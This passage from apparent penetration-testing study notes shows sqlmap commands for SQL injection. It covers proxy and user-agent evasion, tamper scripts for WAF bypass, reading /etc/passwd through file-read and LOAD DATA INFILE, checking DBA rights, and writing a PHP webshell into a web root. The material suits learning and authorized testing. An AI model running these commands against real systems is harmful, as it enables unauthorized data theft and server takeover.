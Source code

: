     sqlmap -u "http://www.example.com/?id=1" --proxy="socks4://177.39.187.70:33283"
    # it should be a working proxy
    ```
  
  * User-agent blacklist bypass:

    ```shell
    # random user-agents can be used if we are getting 5xx errors
    # or if default user-agent of sqlmap is blocked
    sqlmap -u "http://www.example.com/?id=1" --random-agent
    ```
  
  * Tamper scripts:

    * Python scripts written for modifying requests just before being sent to target
    * used for bypassing primitive protection, WAF/IPS
    * use ```--tamper==<tamper-script-name>``` flag; multiple scripts can be used (comma-separated)
  
  * Miscellaneous bypasses:

    * chunked transfer encoding; splits POST request body into chunks - ```--chunked```
    * HTTP parameter pollution (HPP); payloads split between different but same parameter named values

* OS Exploitation:

  * File read/write:

    * read/write operation depends on permissions
    * example command - ```LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE passwd;```
  
  * Checking for DBA privileges:

    ```shell
    sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba
    ```
  
  * Reading local files:

    ```shell
    sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
    ```
  
  * Writing local files:

    ```shell
    sqlmap -u "http://www.example.com/?id=1" --file-write "basic-webshell.php" --file-dest "/var/www/html/basic-webshell.php"
    # if file write is successful
    # we can use curl to access remote php webshell
    ```
  